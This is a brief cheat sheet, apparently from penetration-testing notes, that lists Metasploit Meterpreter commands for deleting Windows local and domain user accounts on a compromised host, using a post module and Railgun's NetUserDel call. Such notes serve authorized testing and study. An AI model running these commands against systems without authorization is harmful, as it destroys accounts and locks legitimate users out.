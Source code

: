 # Metasploit

## 01 - Post Module

```
meterpreter > run post/windows/manage/delete_user username=<username>
```

## 02 - Railgun

Delete the **local user**.

```
meterpreter > irb

>> client.railgun.netapi32.NetUserDel(nil, "<username>")
```

Delete the **domain user**.

```
>> client.railgun.netapi32.NetUserDel("<domain_name>", "<username>")
```